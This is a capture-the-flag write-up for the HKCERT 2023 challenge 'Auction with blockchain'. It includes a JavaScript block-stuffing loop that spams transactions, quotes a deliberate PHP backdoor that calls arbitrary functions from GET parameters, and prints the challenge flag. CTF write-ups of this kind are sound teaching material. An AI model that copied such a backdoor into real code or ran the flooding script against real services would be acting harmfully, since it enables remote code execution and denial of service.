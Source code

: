 # Auction with blockchain \(R\) (200 point, 2 solves, ★★☆☆☆) [First blood 🩸]
---
Solved by: Kaiziron
Team: O0159 - Black Bacon


### Description :
```
It is EIP-1559 era now, can you still perform the "Block Stuffing Attack" efficiently? ... or not?

Web: http://chal-a.hkcert23.pwnable.hk:28306 , http://chal-b.hkcert23.pwnable.hk:28306
```
---
### Solution : 

Although the description mentioned EIP-1559, the simulated blockchain in the challenge is quite simple and has nothing related to it, it is just a distraction

The challenge looks identical to last year's blockchain auction challenge

![](https://i.imgur.com/9n1Y8dX.png)

No bidders will bid for garlic chives, but they will bid for CTF Flag. There will be at least one whale who have more AKA tokens than our wallet and place a higher bid than we can for CTF Flag and win the flag

Last year, I solved this challenge with block stuffing to use up all space of a block by spamming junk transactions after my first bid, so other bidders can't have their transactions included in a block before the auction end

I tried my solution for last year in this year's challenge, and it works

```js
count = 1
bidValue = 1
async function junk() {
    n = 2
    gas = 4
    a = parseInt(Math.max(0,bidValue)).toString(16).padStart(4,"0");
    txdata.value = u.innerText+String(n).padStart(4,"0")+a;
    nonce.value = Array.from(crypto.getRandomValues(new Uint8Array(16))).map(b=>b.toString(16).padStart(2,"0")).join("");
    metumusk.style.display = "block";
    alldata.value = String(txdata.value) + String(gas).padStart(4,"0") + String(nonce.value);
    signature.value = await digestMessage(alldata.value);
    alldatas.value = String(alldata.value) + String(signature.value);

    sendtx()
    console.log(bidValue, count)
    count += 1
}
setInterval(junk, 200)
```

![](https://i.imgur.com/ThsqNgK.png)

But it gives last year's flag, so I'm thinking if they deployed the wrong challenge


Then I opened a ticket and ask about it, but they replied that it's intended

![](https://i.imgur.com/RE1DbPN.png)

Last year, we do not know about the course of this challenge and we have no idea what's actually going on in the backend of this simulated blockchain

This year, the source is also not given. But last year's challenges are all in the hkcert-ctf-2022-cahllenges github repo, and I found the source of it. So I tried to understand the code and see if there's anything changed this year

But then I noticed this weird looking line of code :


https://github.com/blackb6a/hkcert-ctf-2022-challenges/blob/main/18-auction-blockchain/env/abc/src/index.php#L87

```php
    if($info["time"] >= 180){
        if($info["items"][1]["top_bid"] == 0){
            $egmsg .= "No one won the Garlic Chives.\n";
        }else{
            $egmsg .= "0x".$info["items"][1]["top_bidder"]."... won the Garlic Chives with bid ".$info["items"][1]["top_bid"].".\n";
            if($info["items"][1]["top_bidder"] == substr($_SESSION["user"],0,16)){
                $egmsg .= "You got a useless NFT. You were harvested by crypto-farmers.\n";
                $_GET["info"]?$_GET["info"]($_GET[$_GET["info"]]):$_GET["info"];
            }
        }
        $egmsg .= "0x".$info["items"][2]["top_bidder"]."... won the CTF Flag with bid ".$info["items"][2]["top_bid"].".\n";
        if($info["items"][2]["top_bidder"] == substr($_SESSION["user"],0,16)){ //yeah it looks buggy but who cares...
            $egmsg .= "You got an NFT going to the MOON! And here is your reward:\n";
            include_once("flag.php");
            $egmsg .= $flag;
        }
    }
    $info["endgame"] = $egmsg;
```

There is a backdoor if we win the auction for the useless NFT :
```php
$_GET["info"]?$_GET["info"]($_GET[$_GET["info"]]):$_GET["info"];
```

So, just bid on the useless NFT and wait for the auction end, as all other bidders are bidding for the 2022 CTF flag, there is no one bidding for the useless NFT. Then just exploit the backdoor to get the flag

![](https://i.imgur.com/jILIW1C.png)

![](https://i.imgur.com/HsaQa9y.png)

### Flag :

```
hkcert23{how2StuffChivesAttack_JustPay1nEther_0rn0t}
```
